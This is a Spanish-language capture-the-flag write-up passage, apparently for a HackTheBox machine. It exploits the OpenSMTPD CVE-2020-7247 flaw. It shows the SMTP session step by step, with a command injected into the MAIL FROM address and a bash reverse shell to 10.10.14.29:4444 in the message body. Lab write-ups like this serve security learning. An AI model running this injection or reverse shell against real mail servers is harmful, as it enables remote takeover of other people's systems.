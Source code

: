 Partiremos desde este [PoC+Examples](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt)

Nos conectamos via **nc** 

```bash
proxychains nc 10.241.251.113 25

```

Seguido de esta serie de pasos:

```bash
HELO Gali #Saludar con "HELO" 
250 smtp.realcorp.htb Hello Gali [10.241.251.1], pleased to meet you
MAIL FROM:<;for d in x t J z 5 o N G K 9 3 B 1 n Y;do read d;done;bash;exit 0;> #Mail From tal cual
250 2.0.0 Ok
RCPT TO:<j.nakazawa@realcorp.htb> #En el PoC usan root pero no funciona, por logica esta es nuestra unica cuenta
250 2.1.5 Destination address valid: Recipient ok
DATA #Escriben data y luego Enter.
354 Enter mail, end with "." on a line by itself

#
#
#
#
#
#
#
#
#
#
#
#
#
0<&196;exec 196<>/dev/tcp/10.10.14.29/4444; sh <&196 >&196 2>&196 #Payload Rev.Shell Bash
. #<-------- es literalmente un punto *.* para que se envie la Data

```
